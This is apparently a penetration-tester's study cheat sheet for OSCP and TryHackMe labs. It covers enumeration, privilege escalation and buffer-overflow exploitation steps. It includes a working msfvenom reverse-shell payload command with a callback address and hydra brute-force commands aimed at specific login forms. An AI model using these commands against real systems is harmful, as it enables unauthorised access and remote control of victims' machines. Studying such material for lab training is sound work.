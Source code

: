 # Basic Steps

[Tyler's Notebook](https://southeasttech-my.sharepoint.com/:o:/g/personal/tyler_ramsbey_southeasttech_edu/EmrNEjx_FjRKjYRotc9TikMB7DtzCwhKWOAEovdtZADBgg?rtime=bQkHVxRr20g)

## Automatic web enum
- dirb | dirsearch
- linpeas
- wpsscan -U user -P password

## Basic network
- nmap (all ports)
  - script: locate -r nse$ | grep NAME
  - sudo nmap -p- -Pn -sS TARGET -oA AllPort
  - sudo nmap -p -Pn -A 10.10.43.161 -oA Services

- nmap Scrips
  - locate -r nse$ | grep mysql = nmap script

## Pictures
- strings
- exiftool

## Login
- brute force: hydra
- sqlmap

# Buffer overflow
- Upload file on Immunity Debugger (windows)
  
```
!mona config -set workingfolder c:\Users\admin\Desktop\patota
python -c 'print"A" * TOTAL'
!mona findmsp -distance TOTAL 
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l TOTAL
!mona findmsp -distance TOTAL
```

- EIP offset
- Remove "A" from script + write BBB on "retn"

```
while bad_chars
  !mona bytearray -b "\x00" = remove bad chars
  strings.py = without bad chars
  !mona compare -f c:\Users\admin\Desktop\patota\bytearray.bin  -a ESP-Address

!mona jmp -r esp -cpb "Badchars"
```

- Copy address and write it backwards
- Add padding: "\x90" * 16
- Shell code msfvenom without bad chars

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.255 LPORT=80 EXITFUNC=thread -b "\x00\x0a" -f c
```
## Convert python
dos2unix file

## Linux
- sudo -l
- find / -perm -u=s -type f 2>/dev/null
- find / -type f -perm -04000 -ls 2>/dev/null : SUID
- psexec.py
- LinEnum.sh + LinPeas
- lscpu
- lsblk -a
- lsusb -v
- lspci -t -v
- fidlist -l
- Groups: LXD????
- crontab
  
- Shell stabilize
  -  python3 -c 'import pty;pty.spawn("/bin/bash")'
  - python3 -c  import pty;pty.spawn('/bin/bash') 
  - export TERM=xterm


## Payloads
- msfvenom - reverse -f aspx -o app.aspx
- -e x86/shikata_ga_nai
- windows/shell_reverse_tcp 

## Windows
- /priv
- systeminfo
- smb read/write
  - --script=smb-enum-shares.nse,smb-enum-users.nse
- mount:
  - --script=nfs-ls,nfs-statfs,nfs-showmount
- browser cache
- scheduled task
- UAC
- Check loggings
  - sysmon enable / powershell loggging enabled ?
- echo %VARIABLE%
- Unquoted services:
  - wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows
- Permissions:
  - icalcs
- eventvwr

### Kerberos
- Enumerate
  - setspn -T medin -Q ​ */* = extract accounts from Service Principal Name


```
docker exec 7b4294cce723 pandoc FOLDER/OSCP_Report_REPORT_THM.md \
-o OSCP_Report_REPORT_THM.pdf \
--from markdown+yaml_metadata_block+raw_html \
--template eisvogel \
--table-of-contents \
--toc-depth 6 \
--number-sections \
--top-level-division=chapter \
--highlight-style pygments \
--resource-path=.:src


docker exec 7b4294cce723 pandoc OSCP_Report_Steel_Mountail_THM.md \
-o OSCP_Report_REPORT_THM.pdf \
--from markdown+yaml_metadata_block+raw_html \
--template eisvogel \
--table-of-contents \
--toc-depth 6 \
--number-sections \
--top-level-division=chapter \
--highlight-style pygments \
--resource-path=.:src


- Docker remove all images
  - docker rmi $(docker images --filter "dangling=true" -q --no-trunc)
  - docker rmi $(docker images -q) -f
  - docker rm $(docker ps -a -q)
  - docker system prune
```

hydra -l milesdyson -P log1.txt $target http-post-form '/squirrelmail/src/login.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:quirrelMail - Unknown user or password incorrect.' 

hydra -l milesdyson -P log1.txt $ip http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect" -t 20



 '/Account/login.aspx:__VIEWSTATE=69yuuyQu%2BFsV858ME9vQPT2LZw6zTdXbSHk3A%2BpwmODQRfrVjVHDJyqKD2jEwtisRgBmegw72mYyWddOv8SbBKXfboHmeJ6uyE9fz%2F0PGi7XvEY%2FBL4FuCFD8KC1ToQMPuotx8rBU5WTryvqCGHd7BXQ1O3r95cK6LRexB05Wbe5SxevwChLklwuogSbnFlmOkZ4vde1YMBy2ZBp%2BoEVR7tuELrzcHoGdl0xKMb8zNINPSGQKKCdIjA6y%2BdpMFTBZukmvHIhdoWpNUyKvV5rLZIjtDnrnv5VuwMtEfIfLBW%2Bl1RvOw6kxTzbS%2B9Q1X3OhKshXBciedwUdsjLj8Q%2Fo5yqN7YSD%2BjCYyvgTe532vXIxSRo&__EVENTVALIDATION=bu7Jb5OyR%2BLA%2FP8nH01STuIGZjnxSHMigCWCJkdcZP11eB7omb%2Be%2Bmo3%2FBTAYLmclw8%2FyUSC6GKgmzbUw1RIujTeng2th885i89lKztlsy9gYH1QQ13t8BvReyN5q9ZHCWV4xV8Nj4FMH%2FGnR8EFXMn74R9lgTdTTS0PmItKQdViP46X&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed' -f -vV -I
